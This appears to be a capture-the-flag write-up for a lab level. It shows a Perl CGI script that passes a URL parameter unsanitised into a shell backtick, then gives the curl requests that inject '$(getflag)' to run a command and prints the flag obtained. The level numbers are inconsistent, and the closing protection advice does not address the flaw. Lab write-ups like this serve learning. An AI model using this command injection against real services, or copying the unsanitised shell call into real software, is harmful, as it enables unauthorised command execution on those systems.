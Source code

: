 # Level02

### Tools


### How to solve it

1. After loging in using ssh in level03@(vmIP): 
```
ssh level02@000.000.000.000 -p 4242
```
2. We use the ls command and it shows level03 file
```
level04.pl
```
3. Then we run it and it only print a string on the screen, then we cat it and we see the script:
```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));Exploit me
```
4. Analyzing this program we can get this info:
```
This is a perl progra
When executing it works with a subprocess x
The sub x take the parameters and get the first string of it[$_[0]
The echo function with rediction of the output from stdin to stdout print the result of the executed command
```
5. After analyzing that, we try
```
curl localhost:4747?x=testing
```
6. So now we know that this program is being executed and getting x value.
7. We want to run a program using this script so we use the command $(getflag) we have multiple ways of doint it 
```
curl localhost:4747?x='$(getflag)' or curl 'http://localhost:4747/?x=$(getflag)'
```
8. And Boom:
```
ne2searoevaevoem4ov4ar8ap

```
### How to protect
 - Once someone is inside your system and if you do not monitor it it's because you failed before,  one additional proction would be implemeting passowords in important files

